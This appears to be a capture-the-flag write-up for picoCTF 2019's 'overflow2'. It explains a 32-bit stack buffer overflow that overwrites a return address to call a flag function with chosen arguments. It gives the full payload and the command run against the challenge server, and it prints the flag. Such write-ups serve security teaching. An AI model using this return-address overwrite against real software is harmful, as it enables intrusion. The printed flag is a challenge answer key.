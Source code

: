 # overflow2

Simple overflow problem, only need to control return address, and jump to function flag in binary, which can open flag.txt, and pass two arguments to function flag. 

Check security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, we can find address of the function flag.
```
0x080485e6 flag
```
We can find buffer length by looking the function vuln:
```
...
0x08048662 <+3>:	push   ebx
0x08048663 <+4>:	sub    esp,0xb4
...
```
We found that in function vuln, stack first push the ebx into stack and sub length 180 as the buffer. Therefore, the length of the payload will be 4 bytes(ebx) + 180 bytes(buffer) + 4 bytes(ebp) = 188 bytes.

The payload will be:
```
'A'*188 + '\xe6\x85\x04\x08'
``` 
Next, we need to push two arguments 0xdeadbeef, 0xc0ded00d into the stack, because the function will get argument from stack[+4](stack[+0] is return address), we need add 4 bytes offset, the payload will be:
```
'A'*4 + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'
```
The whole payload will be:
```
'A'*188 + '\xe6\x85\x04\x08' + 'A'*4 + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'
```
ssh to the 2019shell1.picoctf.com, and execute command:
```
cd /problems/overflow-2_2_47d6bbdfb1ccd0d65a76e6cbe0935b0f
python2 -c "print 'A'*188 + '\xe6\x85\x04\x08' + 'A'*4 + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | ./vuln
```
obtain the flag:
```
picoCTF{arg5_and_r3turn5ce5cf61a}
```

